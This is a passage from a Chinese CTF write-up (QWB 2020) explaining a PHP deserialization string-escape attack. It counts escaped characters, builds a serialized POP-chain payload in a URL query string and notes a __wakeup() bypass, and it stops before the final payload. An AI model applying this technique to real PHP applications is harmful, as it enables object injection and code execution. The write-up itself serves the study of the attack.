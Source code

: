 ![image-20200824013220924](/images/强网杯2020部分WriteUp/5b0e807e68ff84ee00191e79d9e463df37252653301e8ae58072ad1b19021a62.png " ")

在这副图中，我们能控制的是这两个框中的内容，而我们的目标是控制`pass`成员变成`POP链`，如何控制呢？就需要进行逃逸，让`user`把后面原本的`pass`信息给**吃掉**，也就是将其作为`user`的变量，这样我们构造的`pass`信息就可以进行闭合，从而就能完全控制`pass`的值了。所以这两个框之间的内容`";s:7:"0x00*0x00pass";s:3:"`，就是需要逃逸的内容。

`";s:7:"0x00*0x00pass";s:3:"`，一共占用 21 个字符长度（`0x00`占一个字符长度），需要注意的是，这段字符串最后的`s:3`，指的是传递给`pass`的长度，也就是上面的`POP链的长度` 145，所以需要逃逸的字符串实际为`";s:7:"0x00*0x00pass";s:145:"`，占用23个字符长度。

根据上面的结论，`read()`转换一个`\0*\0`，就会多出两个字符的长度，23个字符就需要 12对`\0*\0`，12对`\0*\0`会多出 24个字符的长度，所以`POP链`得多加一个字符：

```shell
A";s:7:"0x00*0x00pass";O:7:"topsolo":1:{s:7:"0x00*0x00name";O:7:"midsolo":1:{s:7:"0x00*0x00name";O:6:"jungle":1:{s:7:"0x00*0x00name";s:7:"Lee Sin";}}}s:8:"0x00*0x00admin";i:0;}
```



所以`Payload`就变成了：

```shel
?username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0&password=A";s:7:"%00*%00pass";O:7:"topsolo":1:{s:7:"%00*%00name";O:7:"midsolo":1:{s:7:"%00*%00name";O:6:"jungle":1:{s:7:"%00*%00name";s:7:"Lee Sin";}}}s:8:"%00*%00admin";i:0;}
```

先在本机测试一下：

![image-20200824014746455](/images/强网杯2020部分WriteUp/96324ad9b0245e408002f4c67f6c6ba2af2fc9ee62f238276bd3e2af840152a0.png " ")

可以看到已经反序列化成功了，但是并没有执行成功，因为`midsolo`类中有个`__wakeup()`，将`name`变成了字符串了，而不是 **jungle类对象** 了，需要绕过`__wakeup()`，将`midsolo`成员属性的个数改成2即可绕过，于是`Payload`就变成了：
